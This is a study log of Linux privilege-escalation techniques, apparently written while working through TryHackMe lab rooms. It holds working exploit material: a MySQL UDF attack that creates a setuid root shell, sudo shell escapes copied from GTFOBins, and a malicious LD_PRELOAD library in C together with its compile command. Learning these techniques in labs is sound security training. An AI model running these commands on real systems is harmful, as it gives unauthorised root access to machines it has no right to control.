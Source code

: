 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-30 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-30-tryhackme-complete-beginner.html
author: 100007
---
```


# Linux PrivEsc

## Service Exploits

[Exploiting MySQL running as root via a malicious user-defined function dynamic library.](https://www.exploit-db.com/exploits/1518)

The key to this is that if MySQL is running as root, then it can write files to all manner of directories. We use this to load a malicious library (raptor\_udf2.so from the above ExploitDB link) as a plugin by first dumping it as a blob into a table and then dumping it back out in MySQL’s plugin directory. Once there, we define a UDF using the malicious plugin to allow us to execute system commands; in particular, this lets us set the sticky bit on a copied shell that we can then execute to obtain root.

```
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
cat > rootme.sql <<EOF
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
EOF
mysql -u root mysql < rootme.sql
/tmp/rootbash -p # Root!
```

## Weak File Permissions

Make a new password hash for /etc/password or /etc/shadow:

```
mkpasswd -m sha-512 $PASSWORD
```

[It’s also possible to generate MD5 passwords for /etc/passwd using the openssl binary.](https://cardboard-iguana.com/notes/local-file-inclusion-attacks.html)

## Sudo

Some shell escapes via GTFOBins:

- `awk` - `awk 'BEGIN {system("/bin/sh")}'`
- `find` - `find . -exec /bin/sh \; -quit`
- `ftp` - `!/bin/sh`
- `iftop` - `!/bin/sh`
- `less` - `!/bin/sh`
- `man` - `!/bin/sh`
- `more` - `!/bin/sh` (may require TERM to be unset)
- `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
- `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
- `vim` - `:set shell=/bin/sh` followed by `:shell`

If LD\_PRELOAD or LD\_LIBRARY\_PATH are preserved by sudo, then it’s also possible to use a malicious dynamic library to gain root access. Preserved environment variables are listed by `sudo -l`.

LD\_PRELOAD is probably the easiest of these to exploit, because a library listed in this environment variable is just automatically loaded on application start. So just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`.

A simple malicious library (perhaps _the_ simplest) that can exploit the LD\_PRELOAD trick is:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

Using LD\_LIBRARY\_PATH is a bit trickier; use ldd to see what libraries a program is already pulling in, and then name your malicious library after one of these. Then run `sudo LD_LIBRARY_PATH=/path/to/malicious/library program-runnable-with-nopasswd` to trick the program into loading your malicious library instead of the legitimate system library.

While the same code as LD\_PRELOAD can be used as a starting point for an LD\_LIBRARY\_PATH exploit, things get trickier because some libraries are required by others, loaded at different times, or have functions (symbols) that are loaded but not used right away. So some amount of trial-and-error, both in the naming of the malicious library and in what functions are defined within it, may be required.

NOTE that not every UNIX-like system calls their library path LD\_LIBRARY\_PATH!

- [GTFOBins](https://gtfobins.github.io)

